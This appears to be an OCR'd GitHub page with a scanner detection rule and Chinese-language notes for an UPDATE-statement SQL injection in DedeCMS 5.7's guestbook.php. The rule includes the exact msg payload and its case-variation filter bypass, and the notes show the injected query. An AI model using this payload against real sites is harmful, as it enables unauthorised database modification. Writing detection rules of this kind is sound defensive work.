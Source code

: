     > ## set:  
    >   r: randomInt(800000000, 1000000000)  
    > ## rules:  
    >    - **method: `GET`**  
    >         path: /plus/guestbook.php  
    >         follow_redirects: true  
    >         expression: |  
    >             response.status == 200  
    >         search: action=admin&id=(?  P<**`articleid`**>\d{1,20})  #从返回包中提取信息，正则表达式
    >     
    >    - **method: `GET`**  
    >
    >       ```sql
    >         path: 
    >             /plus/guestbook.php
    >                 ?action=admin&job=editok&id={{articleid}}
    >                 &msg=',
    >                     msg=@`'`,  # @`'` --- 0x
    >                     msg=(selecT md5({{r}})),
    >                     email='
    >       ```
    >         follow_redirects: true  
    >         expression: |  
    >             response.status == 200  
    > 
    >    - **method: `GET`**  
    >         path: /plus/guestbook.php  
    >         follow_redirects: true  
    >             
    >       ```yml
    >         expression: |
    >             response.status == 200 
    >             && response.body.bcontains(bytes(md5(string(r))))
    >       ```
    >
    > ## detail:   
    >   author: harris2015(https://github.com/harris2015)  
    >   **Affected Version: "5.7"**  
    >   links:     
    >         - [https://blog.csdn.net/god_7z1/article/details/8180454](https://blog.csdn.net/god_7z1/article/details/8180454)

- **路径**：`/plus/guestbook.php`
- **参数**：`msg`
- **原理：`UPDATE`注入，大小写bypass**  
    dedecms5.7的edit.inc.php中，拼接了`update`语句
    ```sql
    UPDATE `#@__guestbook` 
    SET `msg`='$msg', 
        `posttime`='".time()."' 
    WHERE id='$id'
    ```
    把`',msg=@`'`,msg=(selecT md5({{r}})),email='`赋给`msg`后变成
    ```sql
    UPDATE `#@__guestbook` 
    SET `msg`='', 
        msg=@`'`, 
        msg=(selecT md5({{r}})), 
        email='', 
        `posttime`='".time()."' 
    WHERE id='$id'
    ```
- **检测**：`md5`运算结果